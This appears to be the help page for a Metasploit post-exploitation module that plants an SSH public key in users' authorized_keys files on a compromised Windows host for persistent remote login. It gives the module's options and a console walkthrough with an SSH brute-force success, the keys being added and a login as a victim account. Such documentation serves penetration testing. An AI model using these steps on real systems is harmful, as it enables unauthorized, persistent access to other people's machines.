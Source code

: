 This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.

### Creating A Testing Environment

  This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use post/windows/manage/sshkey_persistence`
  4. Do: `set session #`
  5. Optional Do: `set USERNAME`
  6. Optional Do: `set SSHD_CONFIG`
  7. Do: `run`


## Options

  **SSHD_CONFIG**

  Location of the sshd_config file on the remote system.  We use this to determine if the authorized_keys file location has changed on the system.  If it hasn't, we default to .ssh/authorized_keys

  **USERNAME**

  If set, we only write our key to this user.  If not, we'll write to all users

  **PUBKEY**

  A public key to use.  If not provided, a pub/priv key pair is generated automatically
  
  **ADMIN_KEY_FILE**
  
  Location of public keys for Administrator level accounts
  
  **ADMIN**
  
  Add public keys for gaining access to Administrator level accounts
  
  **EDIT_CONFIG**
  
  Allow the module to edit the sshd_config to enable public key authentication 

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set SESSION 1
    SESSION => 1
    msf post(sshkey_persistence) > set CREATESSHFOLDER true
    CreateSSHFolder => true    
    msf5 post(windows/manage/sshkey_persistence) > run
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [+] Storing new private key as /Users/dwelch/.msf4/loot/20200205161837_default_172.16.128.153_id_rsa_706898.txt
    [*] Adding key to C:\Users\Dean Welch\.ssh\authorized_keys
    [+] Key Added
    [*] Adding key to C:\Users\testAccount\.ssh\authorized_keys
    [+] Key Added
    [*] Post module execution completed

Verify our access works

    ssh -i /Users/dwelch/.msf4/loot/20200205153101_default_172.16.128.153_id_rsa_457054.txt testAccount@172.16.128.153
    
    Microsoft Windows [Version 10.0.18362.592]
    (c) 2019 Microsoft Corporation. All rights reserved.
    
    testaccount@DESKTOP-V8L6UUD C:\Users\testAccount>


